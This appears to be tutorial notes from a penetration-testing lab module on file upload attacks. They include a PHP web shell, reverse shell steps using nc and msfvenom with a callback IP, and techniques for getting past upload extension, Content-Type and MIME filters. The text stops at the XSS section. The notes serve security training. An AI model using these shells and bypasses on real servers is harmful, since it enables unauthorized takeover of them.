- [File Upload Attacks](#file-upload-attacks)
  - [Absent Validation](#absent-validation)
    - [Arbitrary File Upload](#arbitrary-file-upload)
    - [Identifying Web Framework](#identifying-web-framework)
    - [Vulnerability Identification](#vulnerability-identification)
  - [Upload Exploitation](#upload-exploitation)
    - [Web Shells](#web-shells)
    - [Writing Custom Web Shell](#writing-custom-web-shell)
    - [Reverse Shell](#reverse-shell)
    - [Generating Custom Reverse Shell Scripts](#generating-custom-reverse-shell-scripts)
  - [Client-Side Validation](#client-side-validation)
    - [Back-End Request Modification](#back-end-request-modification)
    - [Disabling Front-End Validation](#disabling-front-end-validation)
  - [Blacklist Filters](#blacklist-filters)
    - [Blacklisting Extensions](#blacklisting-extensions)
    - [Fuzzing Extensions](#fuzzing-extensions)
  - [Whitelist Filters](#whitelist-filters)
    - [Whitelisting Extensions](#whitelisting-extensions)
    - [Double Extensions](#double-extensions)
    - [Reverse Double Extension](#reverse-double-extension)
    - [Character Injection](#character-injection)
  - [Type Filters](#type-filters)
    - [Content-Type](#content-type)
    - [MIME-Type](#mime-type)
  - [Limited File Uploads](#limited-file-uploads)
    - [XSS](#xss)
    - [XXE](#xxe)
    - [DoS](#dos)
  - [Other Upload Attacks](#other-upload-attacks)
    - [Injections in File Names](#injections-in-file-names)
    - [Upload Directory Disclosure](#upload-directory-disclosure)
    - [Windows-specific Attacks](#windows-specific-attacks)
  - [Preventing File Upload Vulnerabilities](#preventing-file-upload-vulnerabilities)
    - [Extension Validation](#extension-validation)
    - [Content Validation](#content-validation)
    - [Upload Disclosure](#upload-disclosure)
    - [Further Security](#further-security)

---

[Cheatsheet File Upload Attacks](../../../../cheatsheets/File_Upload_Attacks_Module_Cheat_Sheet.pdf)

# File Upload Attacks

Uploading a file has become a key feature for most modern web applications to allow the extensibility of web apps with user information. A social media website allows the upload of user profile images and other social media, while a corporate website may allow users to upload PDFs and other documents for corporate use.

However, as web application developers enable this feature, they also take the risk of allowing end-users to store their potentially malicious data on the web application's back-end server. If the user input and uploaded files are not correctly filtered and validated, attackers may be able to exploit the file upload feature to perform malicious activities, like executing arbitrary commands on the back-end server to take control over it.

The worst possbile kind of file upload vulnerability is an unauthenticated arbitrary file upload. With this type of vulnerability, a web application allows any unauthenticated user to upload any file type, making it one step away from allowing any user to execute code on the back-end server.

## Absent Validation

The most basic type of file upload vulnerability occurs when the web application does not have any form of validation filters on the uploaded files, allowing the upload of any file type by default.

With these types of vulnerable web apps, you may directly upload your web shell or reverse shell script to the web application, and then by just visiting the uploaded script, you can interact with you web shell or send the reverse shell.

### Arbitrary File Upload

The following web app allows you to upload personal files. The web app does not mention anythin about what file types are allowed, and you can drag and drop any file you want. Furthermore, if you click on the form to select a file, the file selector dialog does not specify any file type, as it says ```All Files``` for the file type, which may also suggest that no type of restrictions or limitations are specified for the web application.



All of this tells you that the programm appears to have no file type restrictions on the front-end, and if no restrictions were specified on the back-end, you might be able to upload arbitrary file type to the back-end server to gain complete control over it.

### Identifying Web Framework

You need to upload a malicious script to test whether you can upload any file type to the back-end and test whether you can use this to exploit the back-end server. Many kinds of scripts can help you exploit web applications through arbitrary file upload, most commonly a Web Shell script and a Reverse Shell script.

A web shell provides you with an easy method to interact with the back-end server by accepting shell commands and printing their output back to you within the web browser. A web shell has to be written in the same programming language that runs the web server, as it runs platform specific funtions and commands to execute system commands on the back-end server, making web shell non-cross plattform scripts. So, the first step would be to identify what language runs the web app.

Possibilites:

- looking at the web page extension in the URLs
- visit ```/index.ext``` where you should swap out ```ext``` with various common web extensions, like ```php```, ```asp```, ```aspx```.
- tools like Wappalyzer

### Vulnerability Identification

To identify whether you can upload arbitrary files (_PHP in this case_), you can upload the following file:

```php
<?php echo "Hello HTB";?> 
```

To verify that it worked:



## Upload Exploitation

### Web Shells

One good option for a PHP web shell is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. Furthermore, SecLists provides a plethora of web shells for different frameworks and languages.

### Writing Custom Web Shell

Although using web shells from online resources can provide a great experience, you should also know how to write a simple web shell manually. This is because you may not have access to online tools during some penetration tests, so you need to be able to create one when needed.

With PHP web app, you can use the ```system()``` function that executes system commands and prints their output, and pass it the ```cmd``` parameter with ```$_REQUEST['cmd']```:

```php
<?php system($_REQUEST['cmd']); ?>
```

If you write the above script to ```shell.php``` and upload it to your web application, you can execute system commands with the ```?cmd=``` GET parameter:



### Reverse Shell

To receive reverse shells through the vulnerable upload functionality, you should start by downloading a reverse shell script in the language of the web app. One reliable reverse shell for PHP is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. After downloading the pentestmonkey script, you need to change the values for IP and PORT.

At this point you should start a netcat listener on your machine, upload the script to the web app, and then visit its link to execute the script and get a reverse shell.

```bash
d41y@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Generating Custom Reverse Shell Scripts

Tools like msfvenom can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place.

```bash
d41y@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

> [!TIP]
> You can generate reverse shell scripts for several languages. You can use many reverse shell payloads with the ```-p``` flag and specify the output language with the ```-f``` flag.

## Client-Side Validation

Many web apps only rely on front-end JavaScript code to validate the selected file format before it is uploaded and would not upload it if the file is not in the required format.

However, as the file format validation is happening on the client-side, you can easily bypass it by directly interacting with the server, skipping the front-end validations altogether. You may also modify the front-end code through your browser's dev tools to disable any validation in place.

This time, when trying to upload a file, you cannot see your PHP scripts, as the dialog appears to be limited to image formats only.



You may still select the ```All Files``` option to select your PHP script anyway, but when you do so, you get an error message saying "Only images are allowed!", and the "Upload" button gets disabled.

This indicates some form of file type validation, so you cannot just upload a web shell through the upload form, as you did before. Luckily, all validation appears to be happening on the front-end, as the page never refreshes or sends any HTTP requests after selecting your file. So, you should be able to have complete control over these client-side validations.

Any code that runs on the client-side is under your control. While the web server is responsible for sending the front-end code, the rendering and execution of the front-end code happen within your browser. If the web app does not apply any of these validations on the back-end, you should be able to upload any file type.

### Back-End Request Modification

Start by examining a normal request through Burp. When you select an image, you see that it gets reflected as your profile image, and when you click on ```Upload```, your profile image gets updated and persists through refreshes. This indicates that your image was uploaded to the server, which is now displaying it back to you.



The web app appears to be sending a standard HTTP upload request to ```upload.php```. This way, you can now modify the request to meet your needs without having the front-end type validation restrictions. If the back-end server does not validate the uploaded file, then you should theoretically be able to send any file type/content, and it would be uploaded to the server.

- ```filename=```
  - change to ```shell.php```
- Content
  - modify to the web shell used before



### Disabling Front-End Validation

Another method to bypass client-side validations is through manipulating the front-end code. As these functions are being completely processed within your web browser, you have complete control over them. So, you can modify these scripts or disable them entirely. Then, you may use the upload functionality to upload any file type without needing to utilize Burp to capture and modify your requests.

To start, you can open the browser's Page Inspector, and then click on the profile image, which is where you trigger the file selector for upload form.

```html
<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
```

You see that the file input specifies (```.jpg```, ```.jpeg```, ```.png```) as the allowed file types within the file selection dialog. However, you can easily modify this and select ```All Files``` as you did before, so it is unnecessary to change this part of the page.

The more interesting part is ```onchange="checkFile(this)"```, which appears to run a JavaScript code whenever you select a file, which appears to be doing the file type validation. To get the details of this function, you can go to the browser's console, and then you can type the function's name to get its details.

```javascript
function checkFile(File) {
...SNIP...
    if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
        $('#error_message').text("Only images are allowed!");
        File.form.reset();
        $("#submit").attr("disabled", true);
    ...SNIP...
    }
}
```

Luckily, you don't need to get into writing and modifying JavaScript code. You can remove this function from the HTML code since its primary use appears to be file type validation, and removing it should not break anything.

To do so, you can go back to your inspector, click on the profile image again, double-click on the function name, and delete it.

With the ```checkFile``` function removed from the file input, you should be able to select your PHP web shell through the file selection dialog and upload it normally with no validations.

Once you upload your web shell, you can use the Page Inspector once more, click on the profile image, and you should see the URL of your uploaded web shell.

```html

```

## Blacklist Filters

### Blacklisting Extensions

When you try the previous attack now, you get  ```Extension not allowed```. This indicates that the web application may have some form of file type validation on the back-end, in addition to the front-end validations.

There are generally two common forms of validating a file extension on the back-end:

- Testing against a blacklist of types
- Testing against a whitelist of types

Furthermore, the validation may also check the file type or the file content for type matching. The weakest form of validation amongst these is testing the file extension against a blacklist of extension to determine whether the upload request should be blocked. For example, the following pieve of code checks if the uploaded file extension is PHP and drops the request if it is:

```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```

The code is taking the file extension from the uploaded file name and then comparing it against a list of blacklisted extensions. However, this validation method has a major flaw. It is not comprehensive, as many other extensions are not included in this list, which may still be used to execute PHP code on the back-end server if uploaded.

### Fuzzing Extensions

If a web app seems to be testing the file extensions, your first step is to fuzz the upload functionality with a list of potential extensions and see which of them return the previous error message. Any upload requests that do not return an error message, return a differetn message, or succeed in uploading the file, may indicate an allowed file extension.



You should keep the file content for this attack, as you are only interested in fuzzing file extensions. You can use this [list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) to test for possible php extensions.



You can sort the result by length, and you will see that all requests with the Content-Length of 193 passed the extension validation, as they all responded with ```File successfully uploaded```. In contrast, the rest responded with an error message saying ```Extension not allowed```.


> [!NOTE]
> Now, you can try uploading a file using any of the allowed extensions, and some of them may allow you to execute PHP code. Not all extensions will work with all web server configurations, so you may need to try several extensions to get one that successfully executes PHP code.

## Whitelist Filters

### Whitelisting Extensions

If you try the same approach you did before, you will now get ```Only Images are allowed```, which may be more common in web apps than seeing a blocked extension type. However, error messages do not always reflect which form of validation is being utilized.



All variations of PHP extensions are blocked. However, the wordlist you used also contained other 'malicious' extensions that were not blocked and were successfully uploaded.

```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

You see that the script uses a regex to test whether the filename contains any whitelisted image extensions. The issue here lies within the regex, as it only checks whether the file name contains the extension and not if it actually ends with it.

### Double Extensions

A straightforward method of passing the regex test is through Double Extensions. For example, if the ```.jpg``` extension was allowed, you can add it in your uploaded file name and still end your filename with ```.php```, in which case you should be able to pass the whitelist test, while still uploading a PHP script that can execute PHP code.



However, this may not always work, as some web applications may use a strict regex pattern.

```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```

This pattern should only consider the final file extension, as it uses ```^.*\.```  to match everything up to the last ```.``` and then uses ```$``` at the end to only match extensions that end the file name. So, the above attack would not work. Nevertheless, some exploitation techniques may allow you to bypass this pattern, but most rely on misconfigurations or outdated systems.

### Reverse Double Extension

In some cases, the file upload functionality itself may not be vulnerable, but the web server configuration may lead to a vulnerability. For example, an organization may use an open-source web application, which has a file upload functionality. Even if the file upload functionality uses a strict regex pattern that only matches the final extension in the file name, the organization may use the insecure configurations for the web server.

For example, the ```/etc/apache2/mods-enabled/php7.4.conf``` for the Apache2 web server may include the following configuration:

```xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

The above configuration is how the web server determines which files to allow PHP code execution. It specifies a whitelist with a regex pattern that matches ```.phar```, ```.php```, and ```phtml```. However, this regex pattern can have the same mistake you saw earlier if you forgot to end it with ```$```. In such cases, any file that contains the above extensions will be allowed PHP code execution, even if it does not end with the PHP extension. For example, ```shell.php.jpg``` should pass the earlier whitelist test as it ends with ```.jpg```, and it would be able to execute PHP code due to the above misconfiguration, as it contains ```.php``` in its name.



### Character Injection

... is another method of bypassing a whitelist validation test.

You can inject several characters before or after the final extension to cause the web application to misinterpret the filename and execute the uploaded file as a PHP file.

Some are:

- ```%20```
- ```%0a```
- ```%00```
- ```&0d0a```
- ```/```
- ```.\```
- ```.```
- ```...```
- ```:```

Each character has a special use case that may trick the web application to misinterpret the file extension.

A little script to generate all permutations:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

## Type Filters

While extension filters may accept several extensions, content filters usually specify a single category, which is why they do not typically use blacklists or whitelists. This is because web servers provide functions to check for the file content type, and it usually falls under a specific category.

### Content-Type



You get a message saying ```Only images are allowed```. The error message persists, and your file fails to upload. If you change the file name to ```shell.jpg.phtml``` or ```shell.php.jpg```, or even if you use ```shell.jpg``` with a web shell content, your upload will fail. As the file extension does not affect the error message, the web application muste be testing the file content for type validation.

The following is an example of how a PHP web app tests the Content-Type header to validate the file type:

```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```
The code sets the ```$type``` variable from the uploaded file's ```Content-Type``` header. Your browser automatically set the Content-Type header when selecting a file through the file selector dialog, usually derived from the file extension. However, since your browsers set this, this operation is a client-side operation, and you can manipulate it to change the perceived file type and potentially bypass the type filter.

You may start by fuzzing the Content-Type header with [Content-Type Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) through Burp Intruder, to see which types are allowed. However, the message tells you that only images are allowed, so you can limit your scan to image types, which reduces the wordlist to 45 types only.



Now you get a ```File successfully uploaded```.

> [!NOTE]
> A file upload HTTP request has two Content-Type headers, one for the attached file (_at the bottom_), and one for the full request (_at the top_). You usually need to modify the file's Content-Type header, but in some cases the request will only contain the main Content-Type header, in which case you will need to modify the main Content-Type header.

### MIME-Type

_Multipurpose Internet Mail Extensions (MIME)_ is an internet standard that determines the type of a file through its general format and bytes structure.

This is usually done by inspecting the first few bytes of the file's content, which contain the File Signature or Magic Bytes. For example, if a file starts with ```GIF87a``` this indicates that it is a GIF image, while a file starting with plaintext is usually considered a Text file. If you change the first bytes of any file to the GIF magic bytes, its MIME type would be changed to a GIF image, regardless of its remaining content or extension.

Example:

```bash
d41y@htb[/htb]$ echo "this is a text file" > text.jpg 
d41y@htb[/htb]$ file text.jpg 
text.jpg: ASCII text

d41y@htb[/htb]$ echo "GIF8" > text.jpg 
d41y@htb[/htb]$file text.jpg
text.jpg: GIF image data
```

Web servers can utilize this standard to determine file types, which is usually more accurate than testing the file extension.

PHP MIME testing example:

```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

Burp example:



You can use a combination of the two methods, which may help bypass some more robust content filters.

## Limited File Uploads

While file upload forms with weak filters can be exploited to upload arbitrary files, some upload forms have secure filters that may not be exploitable with the techniques discussed. However, even if you are dealing with a limited file upload form, which only allows you to upload specific file types, you may still be able to perform attacks on the web app.

Certain file types, like ```SVG```, ```HTML```, ```XML``` and even some image and document files, may allow you to introduce new vulnerabilities to the web application by uploading malicious versions of these files. This is why fuzzing allowed file extensions is an important exercise for any file upload attack. It enables you to explore what attacks may be achievable on the web server.

### XSS

Many file types may allow you to introduce a Stored XSS vulnerability to the web application maliciously crafted versions of them.

